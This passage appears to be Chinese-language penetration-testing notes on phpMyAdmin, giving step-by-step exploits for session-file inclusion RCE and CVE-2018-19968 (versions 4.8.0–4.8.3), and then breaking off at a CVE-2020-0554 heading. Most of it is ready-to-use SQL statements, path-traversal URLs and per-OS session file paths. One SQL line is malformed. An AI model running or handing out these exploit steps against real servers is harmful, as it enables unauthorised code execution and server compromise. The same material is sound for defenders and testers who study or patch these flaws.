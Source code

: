 rce利用：包含session文件

执行 `SQL` 语句，将 `PHP` 代码写入 `Session` 文件中：

```sql
select '<?php phpinfo();exit;?>'
```

包含 `session` 文件：

```url
http://10.1.1.10/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_*** # *** 为phpMyAdmin的COOKIE值
```









### CVE-2018-19968：任意文件包含/RCE

phpMyAdmin 4.8.0~4.8.3，利用如下：

创建数据库，并将 `PHP` 代码写入 `Session` 文件中:

```sql
CREATE DATABASE foo;
CREATE TABLE foo.bar (baz VARCHAR(100) PRIMARY KEY );
INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>';
```

生成 `foo` 数据库的 `phpMyAdmin` 的配置表，访问：

```
http://10.1.1.10/chk_rel.php?fixall_pmadb=1&db=foo
```

篡改数据插入 `pma column_info` 中：

```sql
INSERT INTO` pma__column_infoSELECT '1', 'foo', 'bar', 'baz', 'plop','plop', ' plop', 'plop','../../../../../../../../tmp/sess_***','plop'; # *** 为phpMyAdmin 的COOKIE值
```

这里要注意不用系统的 `session` 保存位置不同，具体系统可以在 `phpMyAdmin` 登录后首页看到

- MacOS`：`/var/tmp
- Linux`：`/var/lib/php/sessions
- phpStudy`：`/phpstudy/PHPTutorial/tmp/tmp



访问包含 `Session` 文件的地址：

```sql
/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[multi_edit][][]=baz&clause_is_unique=1
```


### CVE-2020-0554 后台SQL注入
